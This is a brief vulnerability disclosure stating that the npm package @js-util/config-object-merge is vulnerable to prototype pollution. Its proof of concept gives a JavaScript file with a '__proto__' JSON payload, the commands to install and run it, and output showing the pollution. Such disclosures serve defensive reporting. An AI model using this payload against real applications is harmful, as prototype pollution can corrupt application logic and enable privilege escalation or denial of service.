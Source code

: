 # Description

`@js-util/config-object-merge` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var configObjectMerge = require("@js-util/config-object-merge")
const payload = JSON.parse('{"__proto__":{"polluted":"Yes! Its Polluted"}}');
var obj = {}
console.log("Before : " + {}.polluted);
configObjectMerge(obj, payload);
console.log("After : " + {}.polluted);
```


2. Execute the following commands in terminal:

```
npm i @js-util/config-object-merge # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
